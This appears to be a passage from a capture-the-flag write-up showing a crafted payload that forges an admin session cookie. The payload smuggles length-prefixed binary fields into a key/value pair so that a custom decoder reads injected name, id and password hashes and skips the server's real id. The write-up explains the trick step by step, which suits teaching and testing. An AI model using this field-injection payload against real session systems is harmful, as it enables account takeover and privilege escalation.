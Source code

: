 ```javascript
const plm = encode(payload);
console.log(plm);
console.log(encodeNP(new Buffer(plm, 'base64')));
console.log(decode(plm));
```



```javascript
// PAYLOAD BEFORE ENCODING
{
    'name': 'nytr0gen31337',
    'age': 20,
    'desc': 13,
    "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
    'password': '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
    'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
}
```

What interests us is this part
```
"zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000":
    "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
    "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
    "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
    "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
```

So we have `4*z`, `5*\u00bd` and `\u0001\u0005\u0000\u0000\u0000`. This helps us skip 5 magic header bits from the key. Specifically `\u0001\u00bb\u0000\u0000\u0000`. So everything in the value part gets decoded as new keys.

name. `\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin` admin yeah

id. `\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`. sha256('admin')

password. `\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5`. sha256('qwerty')

As you have seen before, id is always put last when creating the session cookie. We have to make the decoder skip it, because it will overwrite our id. bad.

`\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000`. this does exactly that. under the key `pl` with a length of `\u00ff\u00ff\u0000\u0000 == 65535`. It seems that if I tried a length lesser than what was after it, the script will fail miserably. But anything bigger is cool.
